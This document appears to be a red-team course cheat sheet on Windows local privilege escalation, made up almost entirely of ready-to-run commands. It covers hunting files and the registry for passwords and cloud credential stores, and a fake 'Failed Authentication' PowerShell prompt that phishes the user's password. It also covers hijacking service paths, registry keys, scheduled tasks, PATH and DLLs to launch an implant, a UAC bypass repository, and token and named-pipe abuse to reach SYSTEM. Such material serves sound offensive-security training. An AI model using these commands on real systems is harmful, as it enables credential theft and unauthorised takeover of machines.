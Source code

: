 # RTO Sektor 7 Cheat Sheet

### Credentials

- Search for passwords

```
C:\> dir /b /a /s c:\ > c:\rto\c-dirs.txt
C:\> type c:\rto\c-dirs.txt | findstr /i passw
```

- Search for interesting files

```
C:\> type c:\rto\c-dirs.txt | findstr /i ssh
C:\> type c:\rto\c-dirs.txt | findstr /i kdbx
C:\> type c:\rto\c-dirs.txt | findstr /i vnc
```

- Good targets:

  - install, backup, .bak, .log, .bat, .cmd, .vbs, .cnf, .conf, .config, .ini, .xml, .txt, .gpg, .pgp, .p12, .der, .csr, .cer, id_rsa, id_dsa, .ovpn, .rdp, vnc, ftp, ssh, vpn, git, .kdbx, .db
  - unattend.xml
  - Unattended.xml
  - sysprep.inf
  - sysprep.xml
  - VARIABLES.DAT
  - setupinfo
  - setupinfo.bak
  - web.config
  - SiteList.xml
  - .aws\credentials
  - .azure\accessTokens.json
  - .azure\azureProfile.json
  - gcloud\credentials.db
  - gcloud\legacy_credentials
  - gcloud\access_tokens.db
 
- Search for passwords in the Registry

```
C:\> reg query "HKCU\Software\ORL\WinVNC3\Password"
C:\> reg query "HKCU\Software\TightVNC\Server"
C:\> reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
C:\> reg query "HKCU\Software\OpenSSH\Agent\Keys"
C:\> reg query HKLM /f password /t REG_SZ /s
C:\> reg query HKCU /f password /t REG_SZ /s
```

- Abuse Credential Manager

```
C:\> cmdkey /list
C:\> runas /savecred /user:admin cmd.exe
C:\> runas /savecred /user:admin c:\rto\lpe\implant\implant.exe
C:\> runas /savecred /user:admin "c:\windows\system32\cmd /c dir /b /a /s c:\users\admin > c:\rto\admin.txt"
```

- Rob Credential Manager

```
C:\> powershell Import-Module c:\rto\lpe\cms.ps1 ; Enum-Creds
```

- Ask user for credentials using a trick prompt

```
C:\> powershell "$cred = $host.ui.promptforcredential('Failed Authentication','',[Environment]::UserDomainName+'\'+[Environment]::UserName,[Environment]::UserDomainName); $cred.getnetworkcredential().password"
C:\> powershell "$cred = $host.ui.promptforcredential('Failed Authentication','',[Environment]::UserDomainName+'\'+'admin',[Environment]::UserDomainName); $cred.getnetworkcredential().password"
```

### Unsecured Objects

- Search for unquoted service paths

```
C:\> wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """"
```

- Search for services with weak permissions

```
C:\> c:\rto\tools\si\accesschk.exe -accepteula -wuvc "Everyone" *
C:\> c:\rto\tools\si\accesschk.exe -accepteula -wuvc "Users" *
C:\> c:\rto\tools\si\accesschk.exe -accepteula -wuvc "Authenticated Users" *

C:\> sc query sshd
C:\> sc qc sshd
C:\> sc config sshd binPath= "c:\rto\lpe\implant\implant.exe"
C:\> sc start sshd

C:\> sc stop sshd
C:\> sc config sshd binPath= "c:\Program Files\OpenSSH\sshd.exe"
```

- Search for service Registry keys with weak permissions

```
C:\> c:\RTO\Tools\SI\accesschk.exe -accepteula -kvuqsw hklm\System\CurrentControlSet\services > c:\rto\regs.txt

C:\> reg query HKLM\SYSTEM\CurrentControlSet\services\IKEEXT
C:\> reg add HKLM\SYSTEM\CurrentControlSet\services\IKEEXT /v ImagePath /t REG_EXPAND_SZ /d C:\rto\lpe\implant\implantsrv.exe /f
C:\> sc stop ikeext
C:\> sc start ikeext

C:\> reg add HKLM\SYSTEM\CurrentControlSet\services\IKEEXT /v ImagePath /t REG_EXPAND_SZ /d "%systemroot%\system32\svchost.exe -k netsvcs -p" /f
```

### Execution Flow Hijacking

- Search for files with weak permissions

```
C:\> c:\rto\tools\si\accesschk.exe -accepteula -wus "Users" c:\*.* > c:\rto\fld-usr.txt
C:\> c:\rto\tools\si\accesschk.exe -accepteula -wus "Authenticated Users" c:\*.* > c:\rto\fld-authusr.txt
```

- Exploit the PATH variable

```
C:\> reg query "HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\Environment"
C:\> icacls c:\rto\bin
C:\> copy c:\windows\system32\cmd.exe c:\rto\bin\notepad.exe

C:\> del c:\rto\bin\notepad.exe
```

- Exploit a missing service

```
C:\> c:\RTO\Tools\si\autorunsc64.exe -a s | more
C:\> sc query AdobeUpdate
C:\> sc qc AdobeUpdate
C:\> copy c:\RTO\LPE\implant\implantsrv.exe c:\rto\bin\AdobeUpdate.exe

C:\> sc stop AdobeUpdate
C:\> sc start AdobeUpdate

C:\> del c:\rto\bin\AdobeUpdate.exe
```

- Exploit a missing scheduled task

```
C:\> c:\RTO\Tools\si\autorunsc64.exe -a t | more
C:\> schtasks /query /tn OneDriveChk /xml

C:\> wmic useraccount where sid='S-1-5-21-3461203602-4096304019-2269080069-1003' get name

C:\> copy c:\RTO\LPE\implant\implant.exe C:\RTO\bin\OneDriveChk.exe

C:\> del C:\RTO\bin\OneDriveChk.exe
```

- Hijack a DLL

```
C:\> cd c:\RTO\LPE\DLL-hijack
C:\> compile.bat
C:\> copy c:\RTO\LPE\DLL-hijack\winmm.dll c:\RTO\Tools\putty\

C:\> del c:\RTO\Tools\putty\winmm.dll
```

- Bypass UAC

```
Repo with up-to-date UAC bypass exploits:
https://github.com/hfiref0x/UACME
```

### Getting SYSTEM

- Search for AlwaysInstallElevated MSI setting

```
C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

- Create a new service for SYSTEM

```
run from elevated admin cmd/console:
C:\> sc create lol binPath= "c:\RTO\LPE\implant\implant.exe"
C:\> sc start lol
C:\> sc stop lol
C:\> sc delete lol
```

- Abuse tokens

```
C:\> reg query HKLM\SYSTEM\CurrentControlSet\services\IKEEXT
C:\> reg add HKLM\SYSTEM\CurrentControlSet\services\IKEEXT /v ImagePath /t REG_EXPAND_SZ /d c:\RTO\LPE\2SYSTEM\TokenDance\tokendance.exe /f

C:\> sc stop ikeext
C:\> sc start ikeext

C:\> reg add HKLM\SYSTEM\CurrentControlSet\services\IKEEXT /v ImagePath /t REG_EXPAND_SZ /d "%systemroot%\system32\svchost.exe -k netsvcs -p" /f
```

- Exploit named pipes

```
C:\> cd \RTO\LPE\2SYSTEM\Piper
C:\> compile.bat

run from elevated admin cmd/console:
C:\> cd \RTO\LPE\2SYSTEM\Piper
C:\> piper.exe
```
